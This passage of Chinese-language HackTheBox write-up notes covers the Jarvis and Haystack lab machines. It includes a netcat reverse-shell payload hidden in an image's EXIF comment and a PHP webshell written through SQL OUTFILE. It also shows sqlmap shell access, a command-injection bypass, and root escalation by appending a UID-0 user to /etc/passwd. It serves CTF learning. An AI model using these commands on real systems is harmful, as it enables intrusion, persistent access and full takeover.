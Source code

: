 - 图片马：制作图片马，文中直接使用的`echo >>`追加，同样原理Windows下使用`copy`来追加，或使用010editor等二进制编辑器来追加，但这些都可能涉及图片完整性问题；可以使用exiftool，`exiftool -Comment='<?php system("nc 10.10.14.4 1337 -e /bin/bash"); ?>' test.php.png`，保持图片完整性。
- 定时任务：家目录下的crontab.guly默认不能触发定时器，定时器服务名为`crond`，日志在`/var/log/cron`。
- Linux网卡设置：如果直接修改网络配置文件，即ifcfg-ethx等文件话，必须通过ifup/ifdown来启动/关闭；CentOS系网络配置文件所在目录`/etc/sysconfig/network-scripts/`，Ubuntu系`/etc/network/interfaces/`。

### 十、Jarvis

环境概述：Linux、Medium、30'、22 Jun 2019

渗透流程：Nmap -> Web Enumeration -> SQLi in room.php -> RCE –> Shell as www-data -> Command Injection in simpler.py –> Shell as pepper –> User Flag -> Systemctl: suid –> Root Shell –> Root Flag

知识点：

- SQL注入：利用切换user-agent来bypass，使用sqlmap，`sqlmap -u http://jarvis.htb/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" `。
- RCE：利用sqlmap的`--os-shell`直接getshell；或者使用`--passwords`dump hash，并[在线破解](https://crackstation.net)，以此登陆phpmyadmin，执行SQL来getshell；
- GetShell：phpmyadmin执行SQL写入，`SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/sh3ll.php"`。
- GetShell：查看当前用户sudo特权范围，`sudo -l`，发现可以以pepper身份执行simpler.py，`sudo -u pepper /var/www/Admin-Utilities/simpler.py`，-u指定用户，默认root。exec_ping()存在os.system()且接受输入，但过滤了某些符号，使用`$(bash)`绕过，获得pepper shell。
- Linux提权：使用`find / -perm -4000 2>/dev/null`搜索拥有suid的二进制程序，通过[gtfobins](https://gtfobins.github.io/)的SUID tag发现systemctl可被利用；使用systemctl的root权限链接并启动自定义的服务，进而利用服务配置文件[Service]->ExecStart执行脚本，脚本通过在`/etc/passwd`后追加新用户信息来创新用户，`echo 'rooot:gDlPrjU6SWeKo:0:0:root:/root:/bin/bash' >> /etc/passwd`，即以root权限添加用户rooot，UID和GID均为0；使用`su rooot`切换用户，完成提权。

思考：

- SQL注入：MySQL注入绕过姿势，参考[1](https://ai-sewell.me/2017/Some-features-of-MySQL-in-CTF/)。
- SQLMap：`--random-agent `，使用随机的user-agent；其他参数及技巧参考[1](https://xz.aliyun.com/t/3010)、[2](https://xz.aliyun.com/t/3011)。
- GetShell：要执行SQL语句可以直接利用`sqlmap --sql-shell`；phpmyadmin除执行SQL语句写入shell外，还可利用日志、利用自身漏洞（包含、代码执行等）。
- MySQL：version>4.1密码为*+40位hash，Windows的存在于`path\data\mysql\user.MYD`文件中，可直接打开并拼接40位hash来获取，Linux同理在`/var/lib/mysql/mysql/user.MYD`；利用MySQL写入要留意secure_file_priv参数，是用来限制LOAD DATA, SELECT ... OUTFILE, LOAD_FILE()传到哪个指定目录的。
- Linux：systemctl命令启动的服务都是由service配置文件启动的，enable都是link的配置文件；`/etc/passwd`是用户标记文件，每行格式为`用户名:口令:用户标识号:组标识号:注释性描述:主目录:登录Shell`，由于passwd文件任何人可读，即系统默认用户将口令存放到/etc/shadow，在passwd文件的口令字段中只存放一个特殊的字符，例如x或者\*。
- 添加用户：一般在Webshell中，passwd这种交互式的命令无法执行，可以使用chpasswd，`echo 'sewellding:123456' | chpasswd`进行非交互式的添加账户，或者还是使用passwd，`echo "123456" | passwd --stdin 'sewellding'`。

### 十一、Haystack

环境概述：Linux、Easy、20'、29 Jun 2019

渗透流程：Nmap -> Web Enumeration -> Steg in needle.jpg, SSH creds from elasticsearch, User Flag -> Shell as kibana -> Exploiting logstash, Root Shell

知识点：

- 图片隐写：使用strings，`strings needle.jpg`，发现base64 code并解码，`echo bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg== | base64 -d`，是Spanish西班牙语，转为英语，`la aguja en el pajar es "clave" => the needle in the haystack is "key"`。
- Elasticsearch：默认端口9200，RESTful API，搜索clave关键词，`curl http://haystack.htb:9200/_search?q=clave`，发现SSH普通用户密码。
- 进程监控：[pspy](https://github.com/DominicBreuker/pspy)是一个命令行工具，它可以在没有Root权限的情况下监控Linux进程，黑客可以利用它来查看其他用户的计划任务(cron job)等，在CTF中可快速搜集系统信息；发现logstash是root权限启动的。
- Kibana：默认端口5601，可视化数据，利用本地文件包含漏洞getshell。
- Logstash：默认端口9600，数据处理，由于配置接受`type => "execute"`的文件，造成RCE。
